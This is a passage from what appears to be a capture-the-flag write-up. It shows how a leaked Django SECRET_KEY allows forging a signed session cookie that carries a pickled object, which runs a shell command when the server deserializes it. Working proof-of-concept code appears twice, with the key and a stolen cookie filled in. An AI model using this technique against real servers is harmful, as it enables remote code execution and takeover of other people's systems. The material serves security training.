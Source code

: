 Now that object exists:

```

(venv) oxdf@hacky$ python
Python 3.12.3 (main, Jan 17 2025, 18:03:48) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import django.contrib.sessions.serializers
>>> django.contrib.sessions.serializers.PickleSerializer
<class 'django.core.serializers.base.PickleSerializer'>

```

#### POC

The POC script in the [blog post](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/) mostly works. It loads an existing cookie, and attaches a serialized object that will execute a command when it is deserialized:

```

#!/usr/bin/python
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
import cPickle
import os

SECRET_KEY='[RETRIEVEDKEY]'
#Initial cookie I had on sentry when trying to reset a password
cookie='gAJ9cQFYCgAAAHRlc3Rjb29raWVxAlgGAAAAd29ya2VkcQNzLg:1fjsBy:FdZ8oz3sQBnx2TPyncNt0LoyiAw'
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("sleep 30",))
newContent['testcookie'] = PickleRce()

print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)

```

Then it dumps that cookie out as text. I’ll remove the unused `HttpResponse` and `cPickle` imports, and update the `print` statement to use (). I’ll add in the secret and a cookie stoken from morty:

```

import django.core.signing, django.contrib.sessions.serializers
import os

SECRET_KEY='55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b'
cookie='.eJxNjU1qwzAQhZNFQgMphZyi3QhLluNoV7rvqgcwkixFbhMJ9EPpotADzHJ63zpuAp7d977Hm5_V7265mO4bH-GuJBO9PBuE1TnE_IWwTlnmksbgLUtrETafQ3LdaUgZYYGwnVCH4rOJ6Naw0TLmfz_SdqKZvu9kya67POqGHmHJEHazTEn9Yfwonvp36Y-B6OBzHBS5VMjVJvIaenN6uXUfZgNOJofwTBttmW0FrU3VcGbMgWlRKcWptIIy2Ryqfa1t0-o9VYqpyrCaG061amuuhcBC_gDes2X7:1tecu5:oPSudCgAnfUwcXeLzEYI0JyLYEiYp0zWMnetW6Tdjhs'
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("sleep 30",))
newContent['testcookie'] = PickleRce()

print(django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True))

```
